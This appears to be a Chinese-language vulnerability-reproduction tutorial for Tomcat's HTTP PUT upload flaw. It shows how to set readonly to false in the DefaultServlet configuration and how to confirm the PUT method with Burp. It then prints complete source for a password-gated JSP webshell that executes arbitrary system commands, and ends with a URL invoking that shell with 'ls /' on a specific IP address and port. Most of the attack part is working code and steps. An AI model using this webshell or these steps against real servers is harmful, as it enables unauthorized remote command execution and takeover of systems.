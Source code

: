 **环境搭建**

 下载 Tomcat，安装成功后，需要开启 HTTP PUT 请求，首先打开 Tomcat 目录，找到配置文件

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicW4rA1BV8WxibFrw1ibeh7SUNdor287oGWoxk5mZDicWKfl2TmJME6veOaA/640?wx_fmt=png)

    打开之后，寻找 readonly ，如图，他被禁用了，禁止 PUT 上传：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicWq40AFnrFPiclLIwsq6WG6hlp1QiaPlBCAicPNbfBqls7rGEvTM0xwNzPw/640?wx_fmt=png)

    找到 org.apache.catalina.servlets.DefaultServlet 方法，并添加以下命令，添加成功后重启一下即可

```
<init-param> 
        <param-name>readonly</param-name> 
        <param-value>false</param-value> 
</init-param>
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicWxLIdhZbAh0E7HGQ7csqTwIWJcAzuAI7OOvpOe9icAXQWGXBsVWkslcQ/640?wx_fmt=png)

**漏洞复现**

1. 使用 burp 进行抓包，将请求包发送到 repeater 模块中，将 GET 请求方法改为 OPTIONS，查看请求方法

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicWiarUU7mHqc0Fb0fib8A0G6ZicvtWacLRM7q4bgZFPxDrscpZNQmdN1jdw/640?wx_fmt=png)

2. 发现启用了 PUT 方法，使用 PUT 请求上传 jsp 木马

```
jsp马:
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%>

<%!public static String excuteCmd(String c) {

StringBuilder line = new StringBuilder();

try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new 
InputStreamReader(pro.getInputStream()));

String temp = null;while ((temp = buf.readLine()) != null) {

line.append(temp+"\n");}buf.close();} catch (Exception e) {

line.append(e.getMessage());}return line.toString();}%> 
<%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){

out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicWU1P5sZeSo7L7m2DXDyWicG4W5ty8Hym8CwlobrdiafARCUqE8HMlAcNw/640?wx_fmt=png)

3. 页面状态码返回 201，表示木马写入成功  

4. 到页面中访问 (ip+1.jsp) url: http://219.153.49.228:47195/shell.jsp?cmd=ls%20/&pwd=023
